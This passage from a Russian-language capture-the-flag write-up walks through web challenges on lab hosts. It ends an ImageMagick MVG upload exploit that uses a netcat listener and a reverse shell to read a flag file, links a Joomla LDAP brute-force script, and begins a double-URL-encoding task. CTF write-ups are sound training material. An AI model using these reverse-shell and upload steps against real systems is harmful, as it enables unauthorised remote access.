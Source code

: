 На выходе получаем файл `mvg_rce.mvg`

2) На машине атакующего запускаем листенер - `nc -nvlp 4444`


3) Создаем аккаунт на сайте `http://100.64.1.188/Profile` и загружаем свой аватар - `mvg_rce.mvg` и получаем reverse-shell.

4) cat /flag.txt


##  Захват инфраструктуры противника (ч.4) - 1000 баллов.

`http://100.64.X.157`

### Description

На данном сайте развернута система управления контентом (CMS), которая позволяет создавать и управлять веб-сайтами противника. Также известно, что противник администрирует все свои сайты через данное приложение.
Необходимо получить удаленный доступ к CMS, чтобы выгрзить информацию о всех сайтах противника.

### Hint

Разведка отметила, что вход в систему администрирования выполняется через LDAP.

### Writeup

1) [Script from Github](https://github.com/allyshka/visualhack/blob/master/223/joomla-ldap/joomla-ldap-bruteforce.js)

<details><summary>Script</summary></details>



# WEB 

## Тестирование на проникновение  - 200 баллов

`http://100.64.X.142`


### Description

Данный сайт является доской почета военнослужащих, которые отличились в лучшую сторону по итогам прошедшего месяца.
Помимо ФИО и фотографии на ftp-сервере хранится другая информация о военнослужащих. Получится ли у Вас её достать?


### Hint

Попробуйте двойной url-encode.

### Writeup
